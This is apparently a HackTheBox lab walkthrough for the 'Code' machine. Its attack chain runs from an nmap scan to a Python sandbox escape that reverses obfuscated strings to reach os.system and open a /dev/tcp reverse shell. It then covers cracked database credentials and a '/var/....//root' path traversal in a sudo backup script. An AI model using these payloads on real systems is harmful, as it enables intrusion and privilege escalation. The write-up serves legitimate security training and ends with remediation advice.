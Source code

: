 ![](images/image0.png)

# Code HackTheBox Walkthrough

This report presents a detailed exploitation chain of a vulnerable Python-based web application, 
including remote code execution (RCE) through a sandbox escape, database compromise, credential reuse, 
and privilege escalation via a misconfigured backup utility.

---

## 1. Initial Reconnaissance

We begin with a comprehensive Nmap scan to discover open ports and services on the target:

```bash
nmap -p- -Pn 10.129.231.240 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.231.240 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.231.240 -v --script vuln -oN nmap_vuln.txt
```

![](images/image18.png)

We observed port **5000** open, hosting a Python web-based **code execution environment**.

![](images/image5.png)

---

## 2. Sandbox Analysis & Exploitation

The web editor executed user-supplied Python code but restricted imports such as `os`, `subprocess`, and `sys`.  
After trial and error (“vibe coding”), we discovered that introspection and class inheritance could be abused to bypass restrictions.

### Final Exploit Payload

```python
s1 = 'esolc_parw_'
s2 = 'metsys'
s3 = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.15.30/4444 0>&1'"

for cls in ().__class__.__base__.__subclasses__():
    if cls.__name__ == s1[::-1]:
        s5 = cls.__init__.__globals__
        s5[s2[::-1]](s3)
        break
```

This payload dynamically accessed the **`os.system()`** function through Python’s internal class hierarchy, 
successfully spawning a reverse shell back to the attacker.

![](images/image17.png)
![](images/image7.png)

---

## 3. Post-Exploitation & User Flag

We gained shell access as the **app-production** user.  
Navigating the file system revealed the **user flag** in their home directory:

![](images/image11.png)

---

## 4. Source Code Review & Database Compromise

Reviewing the Flask app source code revealed filtering logic and a **hardcoded secret key**:

![](images/image8.png)
![](images/image3.png)

We located the application’s SQLite database at `instance/database.db` and extracted MD5 password hashes:

![](images/image1.png)
![](images/image6.png)

After cracking the hashes, we recovered valid credentials:

```
martin : nafeelswordsmaster
```

Logging in as **martin**, we discovered a **backups folder** in his home directory containing archived versions of the application.

![](images/image10.png)

---

## 5. Privilege Escalation via Backup Script (`backy.sh`)

Running `sudo -l` revealed that **martin** could execute `/usr/bin/backy.sh` as root:

![](images/image19.png)

Upon inspecting the script, we determined it read configuration data from a `task.json` file, 
filtering and archiving directories specified within. The script was vulnerable to **path traversal** in JSON input.

![](images/image14.png)
![](images/image2.png)
![](images/image12.png)

---

### Exploiting `backy.sh`

We crafted a malicious `task.json` file to include the `/root` directory using directory traversal (`/var/....//root`).

```bash
echo '{
    "destination": "/home/martin/",
    "multiprocessing": true,
    "verbose_log": false,
    "directories_to_archive": [
        "/var/....//root"
    ],
    "exclude": []
}' > task.json
```

We then executed the backup process with elevated privileges:

```bash
sudo /usr/bin/backy.sh task.json
```

![](images/image15.png)

After decompressing the resulting archive, we confirmed full read access to `/root` and obtained the **root flag**:

![](images/image4.png)
![](images/image16.png)

---

## 6. Conclusion

This penetration test highlights the impact of sandbox escape vulnerabilities in Python web environments 
and the dangers of poorly secured privilege escalation paths.

**Key findings:**

- The Python code execution environment failed to sanitize dynamic class access, allowing sandbox escape.  
- Weak database security (exposed secret key and MD5 hashing) facilitated credential compromise.  
- Credential reuse allowed lateral movement to another system account.  
- A misconfigured backup script permitted arbitrary path inclusion and full root access.

**Security recommendations:**

- Implement strict sandboxing and input validation for code execution environments.  
- Replace MD5 hashing with a stronger algorithm (e.g., bcrypt or Argon2).  
- Rotate and encrypt database credentials and application secrets.  
- Limit `sudo` permissions and validate JSON input in privileged scripts.  
- Conduct routine source code audits and privilege reviews to prevent similar exploit chains.

---
